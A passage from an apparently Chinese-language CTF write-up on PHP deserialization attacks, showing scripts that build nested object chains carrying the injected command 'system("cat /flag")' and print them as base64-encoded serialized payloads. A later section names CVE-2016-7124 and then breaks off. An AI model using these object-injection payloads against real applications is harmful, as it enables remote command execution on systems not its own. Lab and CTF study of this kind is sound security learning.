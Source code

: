 ```php 
    {
        $this->show = $show;
    }
}
$user = new User('system("cat /flag");');
$show = new Show($user);

echo base64_encode(serialize($show));

```

### 反序列化-PHP-003
```php
<?php

class ZhangSan
{
    public $name;
    public function __construct($name)
    {
        $this->name = $name;
    }
}

class User
{
    public $username;
    public function __construct($username)
    {
        $this->username = $username;
    }
}

class Show
{
    public $show;
    public function __construct($show)
    {
        $this->show = $show;
    }
}


$zhangsan = new ZhangSan('system("cat /flag");');
$user = new User($zhangsan);
$show = new Show($user);
var_dump($show);
echo base64_encode(serialize($show));
```

### 反序列化-PHP-004
> CVE-2016-7124
```php
<?php

class ZhangSan
{
    public $name;
    public function __construct($name)
    {
        $this->name = $name;
    }
}
```